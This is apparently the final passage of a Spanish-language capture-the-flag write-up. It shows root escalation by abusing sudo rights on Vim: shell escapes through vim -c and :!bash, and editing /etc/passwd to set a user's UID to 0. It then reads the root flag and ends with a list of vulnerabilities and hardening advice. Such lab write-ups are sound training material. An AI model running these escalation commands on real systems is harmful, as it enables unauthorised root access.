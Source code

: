 ### 8. Explotación de Vim
**Método 1: Ejecución directa de shell**
```bash
sudo /usr/bin/vim -c ':! /bin/sh'
```

**Método 2: Escalada desde dentro de Vim**
```bash
sudo vim
# Dentro de Vim:
:shell
# o
:!bash
```

**Método 3: Creación de archivo con privilegios**
```bash
sudo vim /etc/passwd
# Modificar UID de usuario mario a 0
```

### 9. Obtención de Shell Root
**Verificación de privilegios**:
```bash
whoami
# root
id
# uid=0(root) gid=0(root) grupos=0(root)
```

### 10. Flag de Root
```bash
find / -name root.txt -o -name proof.txt 2>/dev/null
cat /root/root.txt
```

## **Conclusión**

### ⚠️ **Vulnerabilidades Críticas Identificadas**
1. **Exposición de información sensible** en secrets.php
2. **Contraseña débil** del usuario mario
3. **Permisos sudo peligrosos** en editor Vim

### 🛡️ **Medidas de Hardening Recomendadas**
- **Protección de archivos sensibles**: Restringir acceso a secrets.php
- **Políticas de contraseñas**: Implementar contraseñas robustas
- **Restricción de permisos sudo**: Limitar ejecución de editores con privilegios
- **Monitoreo de logs**: Auditar intentos de acceso SSH

### 🔧 **Técnicas de Explotación Aplicadas**
1. **Enumeración web** con Gobuster
2. **Fuerza bruta dirigida** con Hydra
3. **Abuso de permisos sudo** en Vim
4. **Escalada clásica** mediante editores privilegiados

---